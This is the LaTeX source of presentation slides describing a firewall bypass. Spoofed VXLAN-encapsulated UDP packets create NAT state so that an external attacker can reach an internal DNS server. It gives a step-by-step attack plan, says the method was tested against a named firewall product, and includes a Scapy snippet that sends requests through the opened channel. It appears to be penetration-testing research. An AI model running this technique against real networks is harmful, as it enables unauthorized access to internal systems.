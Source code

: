 \documentclass[16pt,landscape,a4paper,footrule]{foils}
\begin{document}
The source port we used in the inside packet, becomes the destination port in replies - 54040 in example


Plan inject UDP via VXLAN to create firewall state, will allow reverse UDP requests coming into internal server

\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s): internal packet src 10.0.0.10 UDP sport 53
\item Destination for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination of the firewall
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap, packet switched to firewall, come from inside
\item Firewall forwards, creates state, NATs
\item Attacker waiting for the UDP probe, notice NAT source IP+port
\item Attacker across regular internet send UDP request to NAT IP+port
\item Request match state, and is forwarded to internal server on 10.0.0.10
\end{enumerate}

Tested working with Clavister with DNS UDP probes/requests, weak/no DNS inspection \smiley
\vskip 1cm
\centerline{May allow acess to all UDP services? Need more testing}


Send/receive UDP probe, then do another request through the open channel
\begin{alltt}\footnotesize
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/
    UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
sendp(packet,loop=0)
...
\end{alltt}
\end{document}
